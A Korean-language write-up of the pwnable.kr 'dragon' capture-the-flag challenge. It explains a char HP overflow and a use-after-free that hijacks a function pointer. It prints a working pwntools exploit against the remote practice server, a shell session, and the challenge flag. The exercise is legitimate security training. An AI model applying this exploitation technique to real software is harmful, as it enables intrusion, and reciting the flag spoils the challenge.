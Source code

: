 # [pwnable.kr] dragon writeup



#### [summary] byte overflow 

```shell
I made a RPG game for my little brother.
But to trick him, I made it impossible to win.
I hope he doesn't get too angry with me :P!

Author : rookiss
Download : http://pwnable.kr/bin/dragon

Running at : nc pwnable.kr 9004
```

### structure

```c
00000000 Monster         struc ; (sizeof=0x10, mappedto_1)
00000000 ptr             dd ?                    ; offset
00000004 num             dd ?
00000008 HP              db ?
00000009 MP              db ?
0000000A                 db ? ; undefined
0000000B                 db ? ; undefined
0000000C attack          dd ?                    ; offset
00000010 Monster         ends
00000010
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 User            struc ; (sizeof=0x10, mappedto_2)
00000000 num             dd ?
00000004 HP              dd ?
00000008 MP              dd ?
0000000C ptr             dd ?
00000010 User            ends
```

바이너리에서 사용하는 구조체는 대충 요렇게 생겼다.

### vulnerability

```c
int PriestAttack(struct User *User, struct Monster *Monster){
...
	puts("HolyShield! You Are Temporarily Invincible...");
	printf("But The Dragon Heals %d HP!\n", Monster->MP);
	Monster->HP += Monster->MP;
	User->MP -= 25;
...
}
```

`Priest`의 `HollyShield` 스킬을 사용해가면서 존버하다보면 `HP`가 `char` 형으로 선언되어 있기 때문에, 어느순간 몬스터의 `HP`가 오버플로우가 일어나서 음수가 된다. 이를 이용하면 `Mama Dragon`을 이길 수 있다. `Baby Dragon`은 이길 수 없으시다.. 넘오쌤..

`Mama Dragon`을 이기면 Monster가 사용하던 heap 공간이 free되는데, `FightDragon()`의 루틴을 살펴보면 이미 free된 Monster의 heap 공간을 다시 사용하는 것을 볼 수 있다. 전형적인 uaf임.

```c
int FightDragon(int choice){
    ...
	puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    str = malloc(0x10u);
    __isoc99_scanf("%16s", str);
    puts("And The Dragon You Have Defeated Was Called:");
    ((void (__cdecl *)(struct Monster *))Monster->ptr)(Monster);
	...
}
```

fastbin의 규칙으로 인해 str은 결국 free되었던 Monster의 공간을 다시 할당받기 때문에, 위의 동작은 임의의 주소공간의 코드를 execution 시키는 것을 유발할 수 있다. 

### exploit

```python
#!/usr/bin/python
from pwn import *

def skip_baby():
	r.sendlineafter('Knight\n','2')
	r.sendlineafter('But You Lose 20 HP.\n', '2')

def kill_the_dragon():
	r.sendlineafter('[ 2 ] Knight\n', '1')
	for i in range(4):
		r.sendlineafter('Temporarily Invincible.\n', '3')
		r.sendlineafter('Temporarily Invincible.\n', '3')	
		r.sendlineafter('Temporarily Invincible.\n', '2')


#r = process('./dragon')
r = remote('pwnable.kr', 9004)

skip_baby()
kill_the_dragon()

_system = 0x8048530
shell = 0x08048DBF

payload = p32(shell)

r.sendlineafter('The World Will Remember You As:\n', payload)


r.interactive()
```

### result

```shell
ch4rli3kop@ubuntu16:~/pwn/pwnable.kr/dragon$ python sol_dragon.py 
[+] Opening connection to pwnable.kr on port 9004: Done
[*] Switching to interactive mode
And The Dragon You Have Defeated Was Called:
$ id
uid=1048(dragon) gid=1048(dragon) groups=1048(dragon)
$ ls -l
total 36
-r-xr-x--- 1 root dragon 12284 Jul  1  2014 dragon
-r--r----- 1 root dragon    27 Jul  1  2014 flag
-rw------- 1 root dragon 12950 Jul 11 04:34 log
-rwx------ 1 root root     769 Sep 11  2014 super.pl
$ cat flag
MaMa, Gandhi was right! :)
```

